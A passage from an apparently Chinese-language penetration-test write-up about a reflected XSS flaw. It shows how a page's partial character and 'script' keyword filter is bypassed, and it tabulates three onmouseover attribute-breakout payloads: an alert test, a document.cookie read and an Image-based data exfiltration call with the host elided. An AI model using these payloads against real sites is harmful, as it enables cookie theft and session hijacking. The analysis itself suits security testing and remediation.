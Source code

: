   
从js可以知道  
存在前端过滤+符号转义+禁用字符检测，同时也分析发现前端过滤机制excludeSpecial()函数被注释无效，containSpecial()仅检测$^<>和script关键词，就是使用绕过特殊字符检测，采用无尖括号事件处理器：onmouseover代替onload。  
  
  
  
#### 0x02 验证漏洞：  
  
  
分析后就如下方式尝试构造如下3个poc进行绕过：  
  
1. **语法构造优化**  
- " x="  
：强制闭合原始属性  
  
- 空格分隔：绕过空格过滤检测  
- 省略引号：采用无引号事件调用  
1. **特征规避技术**  
- 避免使用黑名单字符：  
<>$^  
等  
  
- 避开关键词：不使用  
script/js/http  
等  
  
- 使用低频事件处理器：onmouseover> onclick  
<table><tbody><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">POC</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">验证阶段</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">渗透对象</span></span></strong></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;alert(1)&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">基础验证弹窗</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">事件触发机制</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;alert(document.cookie)&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">会话穿透</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">HttpOnly Cookie保护</span></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">&#34; onmouseover=&#34;(new Image).src=&#39;...&#39;&#34; x=&#34;</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">数据渗出</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(0, 0, 0);font-size: 14px;"><span leaf="">DOM核心业务节点</span></span></p></td></tr></tbody></table>  
```
" onmouseover="alert(1)" x="

1. 关键字符检测仅限 [$^<>]，空格/引号/括号均被放行
2. "script"检测可通过事件处理器绕过
3. 未监控Image对象请求外部资源行为  
```  
  